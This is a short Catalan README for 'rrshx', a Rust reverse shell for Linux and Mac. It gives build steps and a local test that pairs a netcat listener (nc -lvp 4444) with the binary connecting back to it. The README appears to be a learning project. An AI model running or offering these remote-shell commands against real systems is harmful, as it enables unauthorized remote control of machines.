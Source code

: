 ## rrshx - Rust Reverse Shell for Linux And Mac 
Que és una Reverse Shell? [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling).

Utilització: **./rrshx [ip] [port]**

Exemple: **./rrshx 127.0.0.1 4444**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshx.git

cd rrshx

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Instal.lem Netcat a linux o mac. Un cop instal.lat, en un terminal l'engeguem.
**nc -lvp 4444**

Obrim un altre terminal i executem el binari compilat
**./rrshx 127.0.0.1 4444**

Si volem provar des del codi font **cargo run -- 127.0.0.1 4444**

El que conseguim és una shell en el terminal on hem engegat el netcat. Però, no és un terminal com a tal (tty). Les aplicacions que requereixen d'un terminal (tty) no funcionen correctament. Hem d'entendre que passem streams de dades des del client (rrshx) al servidor (nc).

[https://es.wikipedia.org/wiki/Tty_(Unix](https://es.wikipedia.org/wiki/Tty_(Unix))
[https://es.wikipedia.org/wiki/Emulador_de_terminal](https://es.wikipedia.org/wiki/Emulador_de_terminal)


Per solventar aquest problema, hi ha diferents tècniques. Deixo enllaç que us pot ajudar.


